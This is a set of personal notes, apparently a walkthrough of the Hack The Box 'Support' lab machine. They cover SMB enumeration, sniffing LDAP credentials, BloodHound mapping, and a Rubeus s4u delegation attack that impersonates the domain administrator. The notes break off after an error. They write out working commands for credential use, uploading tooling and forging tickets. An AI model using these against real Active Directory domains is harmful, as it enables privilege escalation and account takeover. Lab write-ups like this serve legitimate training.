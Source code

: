 
Walkthrough
- anonymous authentication in smb (use any username)
- then retrieve userinfo.exe
- he has powershell installed so he can run an exe file in linux
```
./UserInfo.exe -h
./UserInfo.exe -v find -first ippsec
```
whenever he sees a connect error, he opens up wireshark
capture on any
we will see it is trying to connect to support.htb, so we add that to our /etc/hosts
- then we get No such object exists
- if we check wireshark we will see the bind request and we can see credentials in simple authentication
- try to cme with the credentials
- then run blodhound with the credentials
```
python3 bloodhound.py --dns-tcp -ns 10.10.11.174 -d support.htb -u 'ldap' -p '<password>' -c all
```
- if we get an error failed to get tgt for dc.support.htb, we can add that to our etc/hosts file as well and run the bloodhound again
- if you see the end value of a group is more that 1000 that it is non default
- you can mark all these interesting stuff as high value in bloodhound
- domain admin is rid of 500
- then
```
ldapsearch -h support.htb -D 'ldap@support.htb' -w '<passpord>' -b 'dc=support,dc=htb'
```
- we can  download the sharp collection [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) (Rubeus is here)
- send powermad, powerview and rubeus on the target
- the directory C:\\programdata is usually world writable so we can download files here
- curl rubeus and IEX the ps1 scripts
- we can check if we can create machines if we run
```
Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota
```
and we can see 10
meaning we can create 10 machines
- then
```
.\Rubeus.exe hash /password:123456
```
and we get the rc4_hmac
- then 
```
.\Rubeus.exe s4u /password:123456 /user:FakeComputer$ /domain:support.htb
```

```
./rubeus.exe s4u /user:FakeComputer$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/DC.support.htb /domain:support.htb /ptt
```
but we get a KDC bad option
we can rerun bloodhound again and look at fale computer shortest path to DA from owned principals
